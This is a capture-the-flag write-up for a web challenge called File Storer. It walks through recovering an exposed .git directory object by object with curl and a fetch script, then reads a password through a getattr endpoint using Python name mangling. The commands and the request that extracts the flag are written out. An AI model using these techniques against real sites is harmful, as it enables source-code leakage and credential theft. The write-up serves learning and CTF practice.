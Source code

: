 # File Storer (Web, 160 pts)

### [~$ cd ..](../)

> ```
> My friend made a file storage website that he says is super secure. Can you prove him wrong and get the admin password?
> ```

We then face a signup form:

![signup](signup.png)

and once registration is done, we get a formular allowing us to upload files:

![home](home.png)

At the beginning, I thought that it was the way to get the flag, but actually, it was the wrong path. Uploaded files are useless, and the important thing
is the location where they are stored. By uploading a file, its name appears in a list, and we can see that it stored at http://web2.angstromctf.com:8899/files/...

I then tried some likely names, and saw that index.py gave me a result, but not what I expected, because I received: "no! bad user! bad!".

Finally, I found the hidden .git folder, and it was actually the right way. Unfortunately, it was not possible to download it directly, I had to find a way
to rebuild locally a similar project:

> ```bash
> ~$ mkdir filestorer
> ~$ cd filestorer
> ~$ git init
> 	Initialized empty Git repository in .../filestorer/.git/
> ~$ mkdir -p {hooks,info,objects/{info,pack},refs/{heads,tags}}
> ~$ rm config
> ~$ wget http://web2.angstromctf.com:8899/files/.git/config
> ```

I then created folders used by git, and set up the same config as it was on the website. 

Then, I donwloaded some known files:

> ```bash
> ~$ cd .git
> ~$for file in HEAD config description info/exclude refs/heads/master; do
>for>	curl "http://web2.angstromctf.com:8899/files/.git/${file}" > "${file}";
> ~$ done;
> 	  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
>                                 Dload  Upload   Total   Spent    Left  Speed
>  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--    0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--  100    23  100    23    0     0    110      0 --:--:-- --:--:-- --:--:--   110
>  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
>                                 Dload  Upload   Total   Spent    Left  Speed
>  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--  100    93  100    93    0     0    461      0 --:--:-- --:--:-- --:--:--   462
>  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
>                                 Dload  Upload   Total   Spent    Left  Speed
>  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--    0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--  100    73  100    73    0     0     59      0  0:00:01  0:00:01 --:--:--    59
>  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
>                                 Dload  Upload   Total   Spent    Left  Speed
>  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--    0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--  100   240  100   240    0     0    193      0  0:00:01  0:00:01 --:--:--   193
>  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
>                                 Dload  Upload   Total   Spent    Left  Speed
>  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--    0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--    0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--  100    41  100    41    0     0     32      0  0:00:01  0:00:01 --:--:--    32
> ```

And then tried to get file names

> ```bash
> ~$ git log
>	fatal: bad object HEAD
> ~$ cat .git/refs/heads/master 
>	1233bdadb67c905af6516a2e1b94ebf32a0a2f61
> ```

by using this script [fetch](fetch)

> ```bash
>#!/bin/bash
>hash="${1}";
>folder="${hash:0:2}";
>file="${hash:2:38}";
>mkdir -p ".git/objects/${folder}";
>path=".git/objects/${folder}/${file}";
>curl -s "http://web2.angstromctf.com:8899/files/${path}" > "${path}";
> ```

and ran

> ```bash
> ~$ ./fetch 1233bdadb67c905af6516a2e1b94ebf32a0a2f61
> ```

As long as I got errors, I downloaded expected files:

> ```bash
> ~$ git log
>	commit 1233bdadb67c905af6516a2e1b94ebf32a0a2f61
	Author: kmh11 <hoppykev@gmail.com>
>	Date:   Tue Aug 29 21:09:49 2017 -0400
>
>		first commit
> ~$ git checkout -f
>	error: Could not read 5528cb84ba39060910e309688e2b340084623899
> ~$ ./fetch 5528cb84ba39060910e309688e2b340084623899
> ~$ git checkout -f                                 
>	fatal: unable to read tree 639c13293220ac138c16cddfa9bea84d16e0d1a7
> ~$ ./fetch 639c13293220ac138c16cddfa9bea84d16e0d1a7
> ~$ git checkout -f                                 
>	error: unable to read sha1 file of index.py (aa168eed25aa55fff21054a858329cb4e1187ff0)
>	error: unable to read sha1 file of requirements.txt (b8e1848501840d89d32c3f8eadfafe38a78f8203)
>	error: unable to read sha1 file of templates/index.html (4331a907733114461f8ce52a3076c48ac26c00c2)
>	error: unable to read sha1 file of templates/loggedout.html (29fff8b2c54b09cf0318dde83d1bcbdc1d6d22e8)
>	error: invalid object 100644 4331a907733114461f8ce52a3076c48ac26c00c2 for 'templates/index.html'
> ~$ ./fetch aa168eed25aa55fff21054a858329cb4e1187ff0
> ~$ ./fetch b8e1848501840d89d32c3f8eadfafe38a78f8203
> ~$ ./fetch 4331a907733114461f8ce52a3076c48ac26c00c2
> ~$ ./fetch 29fff8b2c54b09cf0318dde83d1bcbdc1d6d22e8
> ~$ git checkout -f                                 
> ```

I downloaded all files, but the most important one was [index.py](index.py), containg these lines:

> ```python
> ...
>class user:
>    def __init__(self, username, password):
>        self.username = username
>        self.__password = password
>        self.files = []
>    def getPass(self):
>        return self.__password
>
>users = {}
>
>users["admin"] = user("admin", os.environ["FLAG"])
> ...
>#beta feature for viewing info about other users - still testing
>@app.route("/user/<username>", methods=['POST'])
>def getInfo(username):
>    val = getattr(users[username], request.form['field'], None)
>    if val != None: return val
>    else: return "error"
>...
> ```

Then, I knew that the solution was to send a POST request on http://web2.angstromctf.com:8899/user/admin, with the parameter "field=__password", but
"__password", with the trailing underscores is a private variable, and it was impossible to read it with

> ```bash
>~$ curl http://web2.angstromctf.com:8899/user/admin -d "field=__password"
> ```

According to the [documentation](https://docs.python.org/3/tutorial/classes.html#tut-private), these variables are textually replaced with `_classname__var`. Then, I sent:

> ```
>~$ curl http://web2.angstromctf.com:8899/user/admin -d "field=_user__password"
>	actf{2_und3rsc0res_h1des_n0th1ng}
> ```
